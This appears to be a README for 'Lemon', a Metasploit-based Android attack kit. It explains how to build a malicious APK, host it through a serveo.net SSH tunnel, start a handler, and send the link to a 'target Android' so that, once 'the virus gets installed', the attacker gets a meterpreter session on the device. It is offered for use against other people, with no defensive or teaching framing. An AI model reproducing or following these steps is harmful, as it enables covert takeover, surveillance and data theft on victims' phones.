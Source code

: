 .Requirements :-
1. Metasploit-Framework

Installation :-
1. Install it by executing "cd $HOME/Lemon && sh Install" without quotes.

How to use :-

1.Run php by typing "php"

2.Run ssh by typing "ssh" and copy the link you get.   [NEW SESSION]

3.Forward TCP comnections by typing "payload", choose a port of your own and the payload's name, it will take a little time to create and upload the payload with the specified port and name.

4.Type "Handler" and wait for the Handler to start, then type "set LPORT xxxx" Put your port instead of xxxx, and finally type "run"   [NEW SESSION]

5.Now, put your payload's name after the link that you got after running "ssh" [For Example : lente.serveo.net/Name.apk] and send the link to the target Android, once the virus gets installed in the target device, you will see a meterpreter session opening, wait for a few seconds.
  Now you can mess with the Android device using the commnands listed.
